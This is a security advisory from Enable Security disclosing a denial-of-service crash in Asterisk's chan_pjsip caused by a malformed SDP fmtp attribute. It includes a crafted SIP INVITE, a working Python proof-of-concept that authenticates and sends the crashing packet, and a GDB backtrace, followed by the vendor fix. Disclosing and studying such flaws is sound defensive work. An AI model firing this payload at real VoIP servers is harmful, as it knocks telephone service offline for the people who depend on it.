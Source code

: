 # Segmentation fault occurs in asterisk with an invalid SDP fmtp attribute

- Authors:
    - Alfred Farrugia <alfred@enablesecurity.com>
    - Sandro Gauci <sandro@enablesecurity.com>
- Latest vulnerable version: Asterisk 15.2.0 running `chan_pjsip`
- References: AST-2018-003
- Enable Security Advisory: <https://github.com/EnableSecurity/advisories/tree/master/ES2018-02-asterisk-pjsip-sdp-invalid-fmtp-segfault/>
- Vendor Advisory: <http://downloads.asterisk.org/pub/security/AST-2018-003.html>
- Timeline:
    - Issue reported to vendor: 2018-01-15
    - Vendor patch made available to us: 2018-02-05
    - Vendor advisory published: 2018-02-21
    - Enable Security advisory: 2018-02-22


## Description

A specially crafted SDP message body with an invalid fmtp attribute causes a
segmentation fault in asterisk using `chan_pjsip`.


## Impact

Abuse of this vulnerability leads to denial of service in Asterisk when
`chan_pjsip` is in use.


## How to reproduce the issue

The following SIP message was used to reproduce the issue:

```
INVITE sip:5678@127.0.0.1:5060 SIP/2.0
To: <sip:5678@127.0.0.1:5060>
From: Test <sip:5678@127.0.0.1:5060>
Call-ID: adc9caea-2d0a-40af-9de5-1dd21387e03a
CSeq: 2 INVITE
Via: SIP/2.0/UDP 172.17.0.1:10394;branch=z9hG4bKadc9caea-2d0a-40af-9de5-1dd21387e03a
Contact: <sip:5678@172.17.0.1>
Content-Type: application/sdp
Content-Length: 228

v=0
o=- 1061502179 1061502179 IN IP4 172.17.0.1
s=Asterisk
c=IN IP4 172.17.0.1
t=0 0
m=audio 17000 RTP/AVP 9 0 101
a=rtpmap:8 alaw/8000
a=rtpmap:0 PCMU/8000
a=rtpmap:101 telephone-event/8000
a=fmtp\x00:101 0-16
a=sendrecv
```

Notes: 

- `\x00` should be replaced by the null character
- authentication may be required 
- the destination SIP address should match a valid extension in the dialplan.

To facilitate this process we wrote the following python program to reproduce this issue:

```python
import socket
import re
import md5
import uuid

SERVER_IP = "127.0.0.1"
SERVER_PORT = 5060
UDP_IP = "0.0.0.0"
UDP_PORT = 13940
USERNAME = "5678"
PASSWORD = "5678"
INVITE_USERNAME = "5678"

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.bind((UDP_IP, UDP_PORT))

callid = str(uuid.uuid4())

sdpbody = "v=0\r\no=- 1061502179 1061502179 IN IP4 172.17.0.1\r\n" \
    "s=Asterisk\r\n" \
    "c=IN IP4 172.17.0.1\r\n" \
    "t=0 0\r\n" \
    "m=audio 17000 RTP/AVP 9 0 101\r\n" \
    "a=rtpmap:8 alaw/8000\r\n" \
    "a=rtpmap:0 PCMU/8000\r\n" \
    "a=rtpmap:101 telephone-event/8000\r\n" \
    "a=fmtp\x00:101 0-16\r\n"\
    "a=sendrecv"

msg="INVITE sip:%s@%s:%i SIP/2.0\r\n" \
    "To: <sip:%s@%s:%i>\r\n" \
    "From: Test <sip:%s@%s:%s>\r\n" \
    "Call-ID: %s\r\n" \
    "CSeq: 2 INVITE\r\n" \
    "Via: SIP/2.0/UDP 172.17.0.1:10394;branch=z9hG4bK%s\r\n" \
    "Contact: <sip:%s@172.17.0.1>\r\n" \
    "Content-Type: application/sdp\r\n" \
    "{{AUTH}}" \
    "Content-Length: %i\r\n" \
    "\r\n" % (
        INVITE_USERNAME, SERVER_IP, SERVER_PORT,
        INVITE_USERNAME, SERVER_IP, SERVER_PORT,
        USERNAME, SERVER_IP, SERVER_PORT,
        callid, callid,
        USERNAME, len(sdpbody)
        ) + \
    sdpbody

sock.sendto(msg.replace("{{AUTH}}", ""), (SERVER_IP, SERVER_PORT))

data, addr = sock.recvfrom(10240)

if data.startswith("SIP/2.0 401"):
    for line in data.split('\r\n'):
        if line.startswith("WWW-Authenticate"):
            content = line.split(':', 2)[1].strip()
            realm = re.search("realm=\"([a-z]+)\"", content).group(1)
            nonce = re.search("nonce=\"([a-z0-9\/]+)\"", content).group(1)
            ha1 = md5.new(USERNAME + ":" + realm + ":" + PASSWORD).hexdigest()
            uri = "sip:%s:%i" % (SERVER_IP, SERVER_PORT)
            ha2 = md5.new("INVITE:" + uri).hexdigest()
            r = md5.new(ha1 + ":" + nonce + ":" + ha2).hexdigest()

            auth = "Authorization: Digest username=\"%s\"," % (USERNAME) + \
                "realm=\"%s\"," % (realm) + \
                "nonce=\"%s\"," % (nonce) + \
                "uri=\"%s\"," % (uri) + \
                "response=\"%s\"," % (r) + \
                "algorithm=md5\r\n"

sock.sendto(msg.replace("{{AUTH}}", auth), (SERVER_IP, SERVER_PORT))
```

This security issue was discovered through the use of simple fuzzing with [Radamsa](https://github.com/aoh/radamsa) and our internal toolset.

### GDB backtrace result

```
Thread 197 "asterisk" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 0x7fff65e57700 (LWP 10595)]
pjmedia_sdp_attr_get_fmtp (attr=<optimized out>, fmtp=fmtp@entry=0x7fff65e56430) at ../src/pjmedia/sdp.c:350
350	    while (pj_isdigit(*p) && p!=end)
(gdb) bt
#0  pjmedia_sdp_attr_get_fmtp (attr=<optimized out>, fmtp=fmtp@entry=0x7fff65e56430) at ../src/pjmedia/sdp.c:350
#1  0x00007fff6bf49070 in get_codecs (session_media=0x7fff74799540, codecs=0x7fff65e56450, stream=0x7fff97f99de0, session=0x7fff74581688) at res_pjsip_sdp_rtp.c:276
#2  set_caps (session=session@entry=0x7fff74581688, session_media=session_media@entry=0x7fff74799540, session_media_transport=0x7fff74799540, stream=stream@entry=0x7fff97f99de0, is_offer=is_offer@entry=1, asterisk_stream=asterisk_stream@entry=0x7fff747a03b0)
    at res_pjsip_sdp_rtp.c:352
#3  0x00007fff6bf4b2d7 in negotiate_incoming_sdp_stream (session=0x7fff74581688, session_media=0x7fff74799540, sdp=<optimized out>, index=<optimized out>, asterisk_stream=0x7fff747a03b0) at res_pjsip_sdp_rtp.c:1185
#4  0x00007ffff1a16bb9 in handle_incoming_sdp (session=session@entry=0x7fff74581688, sdp=0x7fff97f99870) at res_pjsip_session.c:671
#5  0x00007ffff1a1a721 in new_invite (invite=<synthetic pointer>) at res_pjsip_session.c:2871
#6  handle_new_invite_request (rdata=0x7fff573f88d8) at res_pjsip_session.c:2966
#7  session_on_rx_request (rdata=0x7fff573f88d8) at res_pjsip_session.c:3030
#8  0x00007ffff7868df7 in pjsip_endpt_process_rx_data (endpt=<optimized out>, rdata=rdata@entry=0x7fff573f88d8, p=p@entry=0x7ffff1a0ace0 <param>, p_handled=p_handled@entry=0x7fff65e56d44) at ../src/pjsip/sip_endpoint.c:887
#9  0x00007ffff17e009f in distribute (data=0x7fff573f88d8) at res_pjsip/pjsip_distributor.c:903
#10 0x00000000005fb3be in ast_taskprocessor_execute (tps=tps@entry=0x1dc33a8) at taskprocessor.c:963
#11 0x0000000000602610 in execute_tasks (data=0x1dc33a8) at threadpool.c:1322
#12 0x00000000005fb3be in ast_taskprocessor_execute (tps=0x1a39488) at taskprocessor.c:963
#13 0x0000000000602af0 in threadpool_execute (pool=0x1a37ca8) at threadpool.c:351
#14 worker_active (worker=0x7fff9457ccd8) at threadpool.c:1105
#15 worker_start (arg=arg@entry=0x7fff9457ccd8) at threadpool.c:1024
#16 0x000000000060d4bd in dummy_start (data=<optimized out>) at utils.c:1257
#17 0x00007ffff5e3d6ba in start_thread (arg=0x7fff65e57700) at pthread_create.c:333
#18 0x00007ffff54263dd in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:109
(gdb)

```


## Solutions and recommendations

Apply the patch issued by Asterisk at <http://www.asterisk.org/security> or upgrade to the latest release.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) provides Information Security services, including Penetration Testing, Research and Development, to help protect client networks and applications against online attackers.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

